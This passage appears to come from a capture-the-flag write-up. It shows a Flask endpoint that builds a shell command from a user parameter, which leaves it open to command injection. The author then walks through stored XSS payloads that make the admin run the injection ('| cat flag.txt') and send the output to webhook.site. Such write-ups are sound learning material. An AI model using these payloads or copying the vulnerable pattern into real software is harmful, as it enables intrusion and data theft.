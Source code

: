 3. `/api/cal`: the most interesting endpoint, which executes the `cal` command if the secret cookie matches. If an optional `modifier` parameter is provided, it is appended as an argument.

```python
@app.route('/api/cal', methods=['GET'])
def get_cal():
    cookie = request.cookies.get('secret')

    if cookie == None:
        return '{"error": "Unauthorized"}'

    if cookie != SECRET:
        return '{"error": "Unauthorized"}'

    modifier = request.args.get('modifier','')

    return '{"cal": "'+subprocess.getoutput("cal "+modifier)+'"}'
```

### Attack

With all this gathered information, my attack plan was as follows:

1. Inject a command to retrieve the flag, via the `modifier` parameter in the `/api/call/` endpoint.
2. Craft a XSS payload that would:
   1. Force the admin to visit `/api/call` with my command injection in `modifier`.
   2. Capture the response, which contains the flag.
   3. Send this response to a server controlled by me
3. Store the XSS payload in the username field via the `/api/stats/` POST request.
4. Retrieve the `uuid` from `/api/stats/<uuid>` and submit it to the admin for execution.

After starting with small payloads, verifying that the admin could make external connections and that there was no input validation, I prepared the following payload:

```javascript
<script>
fetch('http://chal.competitivecyber.club:13337/api/cal & cat flag.txt').then(response => response.text()).then(data => { fetch('https://webhook.site/69ffcd48-3a32-46a0-9c93-10f2362b96d0/?data='+encodeURIComponent(data));});
</script>
```

Although the first request was working, which I verified by pointing it to my server, the second request never seemed to reach his destination. I tried tweaking the payload in various ways, but coulnd't get it to work.

By this time, my teammate [castilho](https://castilho.onrender.com/) told me that he had found a working solution. To my surprise, his payload was nearly identical to mine, but used a different approach to reach his server:

```javascript
<script>
  fetch('/api/cal?modifier=2024 | cat
  flag.txt').then((response)=>response.text()).then((text)=>
  {
    (window.location =
      `//webhook.site/0d8c55d7-c68f-4733-b0d8-c63ef96193d6/?x=` + text)
  }
  )
</script>
```

